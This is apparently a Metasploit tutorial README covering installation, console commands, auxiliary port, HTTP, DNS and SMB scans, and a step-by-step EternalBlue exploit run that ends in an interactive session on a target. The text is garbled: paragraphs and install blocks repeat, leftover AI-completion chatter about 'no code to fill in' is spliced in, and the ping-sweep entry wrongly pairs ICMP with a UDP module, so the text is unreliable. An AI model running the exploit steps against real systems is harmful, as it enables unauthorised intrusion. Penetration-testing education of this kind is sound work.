

# Metasploit

Metasploit is a powerful penetration testing framework that provides a comprehensive platform for developing, testing, and executing exploits. It contains a large database of known vulnerabilities, exploits, and auxiliary modules that can be used for security testing and assessment.There is no code to fill in. The prefix contains only text, and there is no code snippet to complete.
Metasploit is a powerful penetration testing framework that provides a comprehensive platform for developing, testing, and executing exploits. It contains a large database of known vulnerabilities, exploits, and auxiliary modules that can be used for security testing and assessment.There is no code to fill in. The prefix contains only text, and there is no code snippet to complete.
On Kali Linux, Metasploit comes pre-installed. For other systems, you can install it using the following commands:

## Architecture

{width='200', height='200', align='center' }

### Debian/Ubuntu-based systems

```bash
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall
chmod +x msfinstall
./msfinstall
```

### Getting Started

To update Metasploit to the latest version and launch the console:

```bash
msfupdate
msfconsole
```


Metasploit is a powerful penetration testing framework that provides a comprehensive platform for developing, testing, and executing exploits. It contains a large database of known vulnerabilities, exploits, and auxiliary modules that can be used for security testing and assessment.There is no code to fill in. The prefix contains only text, and there is no code snippet to complete.## Installation

On Kali Linux, Metasploit comes pre-installed. For other systems, you can install it using the following commands:

### Debian/Ubuntu-based systems

```bash
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall
chmod +x msfinstall
./msfinstall
```

Since there's no code to rewrite in the specified section (it's empty between the prefix and suffix), and the instruction simply says "here", I'll assume you want to add content between the prefix and suffix. Based on the context, I'll add an introductory section about Metasploit:

## Installation

On Kali Linux, Metasploit comes pre-installed. For other systems, you can install it using the following commands:

### Debian/Ubuntu-based systems

```bash
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall
chmod +x msfinstall
./msfinstall
```

### Getting Started

To update Metasploit to the latest version and launch the console:

```bash
msfupdate
msfconsole
```

## Commonly used Metasploit (MSF) commands

| **Command**                     | **Description**                                               |
|---------------------------------|---------------------------------------------------------------|
| **msfconsole**                  | Start the Metasploit console.                                |
| **search [module_name]**        | Search for specific modules (exploits, payloads, etc.).     |
| **use [module_path]**           | Select a module to use (e.g., exploit, auxiliary).          |
| **show options**                | Display available options for the selected module.           |
| **set [option] [value]**        | Set a specific option for the module.                        |
| **exploit**                     | Execute the selected exploit against the target.             |
| **back**                        | Go back to the previous menu or module.                      |
| **info**                        | Display information about the selected module.               |
| **sessions**                    | List active sessions from exploited targets.                 |
| **sessions -i [session_id]**    | Interact with a specific session.                            |
| **run [module_name]**           | Execute an auxiliary module (instead of using exploit).     |
| **db_nmap [options]**          | Run Nmap scans and store results in the database.            |
| **setg [option] [value]**       | Set a global option for all modules.                         |
| **exit**                        | Exit the Metasploit console.                                 |
| **save**                        | Save the current workspace.                                  |
| **jobs**                        | List running jobs.                                           |
| **kill [job_id]**               | Terminate a specific job.                                    |
| **workspace [name]**           | Switch to a different workspace or create a new one.         |
| **workspace [name]**           | Switch to a different workspace or create a new one.         |
| **db_status**                   | Check the status of the database connection.                 |
| **db_import [file]**            | Import scan results from various formats into the database.  |
| **db_export [file]**            | Export database contents to a file.                          |

## Auxiliary Modules

Auxiliary modules in Metasploit are non-exploitation tools that perform various tasks such as scanning, enumeration, and information gathering. They are useful for reconnaissance and identifying vulnerabilities in a target system.

### Example: Running an Auxiliary Module

**Scenario:** You want to use an auxiliary module to perform a port scan on a target IP address.

1. **Start Metasploit:**

   ```bash
   msfconsole
   ```

2. **Search for available auxiliary modules:**

   ```bash
   search auxiliary
   ```

3. **Choose a specific module, e.g., TCP port scanner:**

   ```bash
   use auxiliary/scanner/portscan/tcp
   ```

4. **Display module options:**

   ```bash
   show options
   ```

5. **Set the target IP address:**

   ```bash
   set RHOSTS 192.168.1.1
   ```

6. **Set the port range (optional):**

   ```bash
   set PORTS 1-1000
   ```

7. **Run the module:**

   ```bash
   run
   ```

After executing the `run` command, Metasploit will perform the TCP port scan on the specified target and display the results in the console.

Here are a few examples of commonly used **auxiliary modules** in Metasploit, along with descriptions of what they do:

### Next Examples

These examples demonstrate how to use different **auxiliary modules** in Metasploit for tasks such as scanning for open ports, detecting versions, performing DNS queries, and discovering live hosts on a network. Each module usually requires specifying the target (using `RHOSTS` or similar options) before running the command to execute the desired task.

1. **TCP Port Scanner**
   - **Module Path:** `auxiliary/scanner/portscan/tcp`
   - **Description:** Scans a range of IP addresses for open TCP ports.
   - **Usage:**

     ```bash
     use auxiliary/scanner/portscan/tcp
     set RHOSTS 192.168.1.0/24      # Set the target network
     set PORTS 1-1000                # Specify the port range
     run                             # Execute the port scan
     ```

2. **HTTP Version Detection**
   - **Module Path:** `auxiliary/scanner/http/http_version`
   - **Description:** Determines the HTTP version used by web servers.
   - **Usage:**

     ```bash
     use auxiliary/scanner/http/http_version
     set RHOSTS 192.168.1.1        # Set the target IP
     set RPORT 80                  # Specify the port (if not 80)
     run                           # Execute the scan
     ```

3. **DNS Zone Transfer**
   - **Module Path:** `auxiliary/scanner/dns/dns_zone_transfer`
   - **Description:** Attempts to perform a zone transfer on a DNS server to obtain information about the domain.
   - **Usage:**

     ```bash
     use auxiliary/scanner/dns/dns_zone_transfer
     set RHOSTS example.com         # Set the target domain
     run                             # Execute zone transfer
     ```

4. **SMB Version Detection**
   - **Module Path:** `auxiliary/scanner/smb/smb_version`
   - **Description:** Detects the version of SMB running on a target.
   - **Usage:**

     ```bash
     use auxiliary/scanner/smb/smb_version
     set RHOSTS 192.168.1.1        # Set the target IP
     run                             # Execute the version detection
     ```

5. **Ping Sweep**
   - **Module Path:** `auxiliary/scanner/discover/udp_sweep`
   - **Description:** Uses ICMP echo requests to discover live hosts on a network.
   - **Usage:**

     ```bash
     use auxiliary/scanner/discover/udp_sweep
     set RHOSTS 192.168.1.0/24     # Set the target subnet
     run                             # Execute the ping sweep
     ```

In Metasploit, sessions are created when you successfully exploit a target, often using an exploit module rather than an auxiliary module. Below is a brief overview of how to establish a session and work with exploits to create one.

### Example of Establishing a Session with an Exploit Module

1. **Choosing an Exploit Module**
   - **Example Module:** Let's say you want to exploit a known vulnerability in an application running on a target machine.
   - **Module Path:** `exploit/windows/smb/ms17_010_eternalblue`
   - **Usage:**

   ```bash
   use exploit/windows/smb/ms17_010_eternalblue
   ```

2. **Show Options and Set Targets**
   - **Display module options:**

   ```bash
   show options
   ```

   - **Set the target IP address:**

   ```bash
   set RHOSTS 192.168.1.100  # IP of the target machine
   set LHOST 192.168.1.50    # Your local IP (attacker's machine)
   ```

3. **Run the Exploit**
   - **Execute the exploit to attempt to gain a session:**

   ```bash
   exploit
   ```

4. **Interact with the Session**
   - **List active sessions:** Once the exploit is successful, a session will be created.

   ```bash
   sessions
   ```

   - **Interact with the session:** Choose to interact with the newly created session.

   ```bash
   sessions -i 1  # Replace "1" with the session ID number you want to interact with.
   ```

## Summary of Key Commands Related to Sessions

Auxiliary modules are typically used for scanning or gathering information and do not create sessions, while exploit modules are designed to take advantage of vulnerabilities to establish a session on the target machine. Using the right module is crucial for successful exploitation and session management.

| **Command**                     | **Description**                                               |
|---------------------------------|---------------------------------------------------------------|
| **sessions**                    | List all active sessions.                                    |
| **sessions -i [session_id]**    | Interact with a specific session based on its ID.           |
| **sessions -l**                 | List sessions with detailed information.                     |
| **sessions -k [session_id]**    | Kill a specific session.                                     |
